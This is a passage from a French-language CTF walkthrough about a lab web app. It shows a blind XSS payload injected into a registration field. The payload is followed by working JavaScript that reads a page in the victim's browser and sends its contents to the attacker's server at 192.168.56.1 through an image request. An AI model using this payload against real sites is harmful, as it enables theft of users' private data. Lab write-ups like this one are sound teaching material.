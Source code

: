 * exp => expiresAt

* jti => id

* extra => claim

En cherchant un peu sur le web j'ai découvert qu'une grande partie de ces noms de variables sont très génériques (voir [JSON Web Token Claims](https://auth0.com/docs/secure/tokens/json-web-tokens/json-web-token-claims)) et je n'ai d'ailleurs pas trouvé de traitement particulier de ces données dans l'application Android (du genre exécution d'une commande, accès à des fichiers ou autre).

J'ai pensé aussi à une vulnérabilité de désérialisation mais le package *GSON* de Google qui est inclus dans l'application est réputé sûr. Il y a un advisory qui le concerne mais aucun PoC n'est disponible sur Internet.

## Man in the browser

Finalement ma logique a été de me dire que puisque *Alphonse* est intéressé par notre ADN il va forcément  le regarder. Et ça tombe bien quand on s'enregistre on passe un paramètre `dna_string`.

J'ai donc procédé à un enregistrement en spécifiant la valeur suivante :

```html
<script src="http://192.168.56.1/test2.js"></script>
```

Et après quelques minutes j'obtiens effectivement une requête prouvant que le paramètre est vulnérable à un XSS en aveugle.

La suite logique est d'exfiltrer le cookie de l'utilisateur comme j'ai pu le faire sur le CTF [RedCross de HackTheBox](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20RedCross%20de%20HackTheBox.md#call-me). Mais ici j'ai obtenu une réponse vide... C'est peut être dû à l'authentification par JWT que l'on a vu plus tôt ou à l'option httpOnly définie sur le cookie.

J'ai décidé de procédé autrement : je provoque une requête HTTP dans le navigateur d'*Alphonse* pour la page qui m'intéresse, j'obtiens la réponse via XHR puis j'envoie le contenu via le chargement d'une image (on ne peut pas le faire directement via XHR en raison de la *same-origin policy*).

Mon script JS devient alors le suivant :

```js
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
    if(xmlhttp.readyState == 4){
        var img = document.createElement("img");
        img.src = "http://192.168.56.1/content" + encodeURI(xmlhttp.responseText);
        document.body.appendChild(img);
    }
}
xmlhttp.open("GET","/dnanalyzer/portal/index.php");
xmlhttp.send();
```

J'obtiens alors une requête sur mon serveur web qui contient la page encodée. Une fois décodée ça ressemble à ceci :

```html
<html>                                                                                                                 
                                                                                                                       
<head>                                                                                                                 
    <meta http-equiv="refresh" content="180">
    <script src="analyze_dna.js"></script>                                                                             
</head>                                                                                                                
                                                                                                                       
<body>                                                                                                                 
```